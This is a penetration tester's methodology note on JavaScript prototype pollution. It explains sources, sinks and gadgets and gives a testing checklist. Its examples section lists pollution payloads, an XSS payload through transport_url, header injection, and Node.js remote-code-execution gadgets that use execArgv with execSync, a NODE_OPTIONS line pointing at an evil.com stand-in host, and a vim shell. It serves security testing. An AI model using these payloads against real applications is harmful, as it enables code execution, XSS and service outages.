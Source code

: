 ```yaml
---
title: "Prototype Pollution"
layout: notes
tags:
  - webapp
  - methodology
  - prototype-pollution
  - FI_javascript
  - Co_rce
  - Co_dos
  - Co_privilege-escalation
  - Co_xss
  - FI_parameters
  - FI_api
---
```

## Summary

As web applications have matured and developed JavaScript has become a staple of front and backend design. Inside of JavaScript everything is an object, and all objects have properties and prototypes. Each object is additionally created with a constructor that contains a prototype of base properties used to make the object. Each object will inherit properties from its prototype, 4 types exist: object, string, array, number. If a property is not defined under an object it will check the prototype, and each property or method in a prototype is inherited by all of its children. Inside of JavaScript if an attacker can pollute the prototype of an object all subsequent objects under the same prototype will inherit that property, allowing for [[XSS - JavaScript Injection]] on self-prototype pollution, and Remote Code Execution on server-side prototype pollution. 

The two take different methods as the developer console can inspect the DOM for changes whereas server-side properties such as "json spaces" needs to be used for testing. Put simply 3 parts to a successful prototype pollution attack exist: the source to pollute objects, the sink to allow for code execution, and a gadget passed into a sink improperly. After finding those a property can be polluted and the sink found can be abused in any way feasibly possible. Server-side prototype pollution can destroy the application in question, so caution is advised. When trying for remote code execution `child_process` is the module to execute code, through `fork()` and `spawn()`. `child_process` has `execSync()` to run system commands, and `fork()` has `execArgv` to evaluate expressions. 

## Methodology

**WARNING**: Making changes to the prototype within the DOM can impact how code runs. Worst case scenario it can crash the web application all together and causes serious downtime and headaches for a business. Unless you are absolutely certain that a payload will not cause an adverse effect, veer on the site of extreme caution.

When looking for Prototype Pollution vulnerabilities ask/try the following:
- [ ] **Is there any source to pollute?**
	- [ ] try checking parameters, API endpoints, POST data converted to JSON, etc..
	- [ ] **Am I getting JSON feedback?**
- [ ] **Can you find any sink or use for pollution?**
	- [ ] basic ones are `eval()` and `innerHTML` but keep an open eye and mind
	- [ ] **Is there a gadget to pass into that sink?**
- [ ] **Is this client side?**
	- [ ] try to pollute `__proto__[foo]=bar`
	- [ ] try scanning with DOM Invader
- [ ] **Is this server side?**
	- [ ] try to pollute `"__proto__":{"json spaces":1}` and observe any changes in raw view of burp
	- [ ] try `"__proto__":{"status":"555"}` and induce an error to test
		- [ ] removing a `"` from a JSON POST might cause an error to check for the proper JSON response
	- [ ] try to send `+AGYAbwBv-` and use `"__proto__":{"content-type":"application/json; charset=utf-7"}`
		- [ ] check for other encoding types if this doesn't work
- [ ] try `constructor.prototype` instead of `__proto__`
- [ ] try to bypass any filters by nesting
- [ ] **Is there Object.defineProperty() to prevent writing?**
	- [ ] overwrite the `value` property to whatever you want

<br>
CLIENT SIDE
- [ ] try to pop some XSS 

<br>
SERVER SIDE
- [ ] try to run RCE from the Tools/Examples
- [ ] change out the shell if no results but positive earlier results
		shell needs to be executable, and commands are run from a `-c`, ie stdin required
		curl can be tricked into reading stdin with `-d @-`
		xargs can be used to turn stdin into arguments

## Capabilities

Privilege Escalation  
Remote Code Execution  
Cross-Site Scripting  
Denial of Service  

## Found In

JavaScript  
Parameters  
APIs  

## Tools/Examples

setting property test in `__proto__` JSON
```
{"__proto__": {"test": true}}
{"__proto__[test]": true}
{"__proto__.test": true}
{"__proto__.name":"test"}

{"constructor": {"prototype": {"test": true}}}
{"constructor.prototype.test": true}
{"constructor": {"test": true}}
```

modifying `__proto__` itself JSON
```
{"__proto__": "test"}
{"__proto__": {}}
{"__proto__": null}
{"__proto__": []}
```

Misc Specific Stuff
```
# Prototype Chain Poisoning
{"constructor": {"prototype": {"__proto__": {"test": true}}}}

# Function Prototype Pollution
{"__proto__.constructor.prototype.test": true}

# Recursive Prototype Chain
{"__proto__.constructor.prototype.__proto__.test": true}

# Boolean Prototype
{"__proto__": {"constructor": {"prototype": {"test": true}}}}

# Constructor Pollution via Function
{"constructor": {"prototype": {"constructor": {"prototype": {"test": true}}}}}

# Combination Payloads
{"__proto__.test": true, "constructor.prototype.test": true}
```

more `__proto__` setting
```
Object.__proto__["test"] = true
Object.__proto__.test = true
Object.constructor.prototype.test = true
Object.constructor["prototype"]["test"] = true
```

setting test 
```
x[__proto__][test] = true
x.__proto__.test = true
__proto__[test] = true
__proto__.test = true
```

setting url for xss in script src
```
?search=&__proto__[transport_url]=data:,alert(1);
```

fetch() sink exploitation
```
__proto__[headers][injected_header]=bar
```

RCE examples in node.js
```
"shell":"node"
"NODE_OPTIONS":"--inspect=dns\"\".evil\"\".com"

"execArgv":["--eval=require('child_process').execSync('whoami')"]

"shell":"vim",
"input":":! whoami\n"
```

![3689-article-prototype-pollution-prototype-chain.svg](/img/webapp_notes/3689-article-prototype-pollution-prototype-chain.svg)